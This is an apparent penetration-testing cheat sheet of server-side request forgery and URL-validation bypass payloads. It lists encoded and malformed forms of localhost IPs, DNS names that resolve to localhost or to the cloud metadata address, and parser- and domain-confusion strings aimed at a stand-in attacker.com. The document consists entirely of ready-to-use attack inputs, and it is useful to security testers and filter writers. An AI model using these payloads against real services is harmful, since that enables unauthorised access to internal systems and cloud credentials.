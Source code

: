 ```html
# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1

```
* **Domain Parser**
```html
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ

```
* **Domain Confusion**
```html
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
https://{domain}@attacker.com
https://{domain}.attacker.com
https://{domain}%6D@attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
```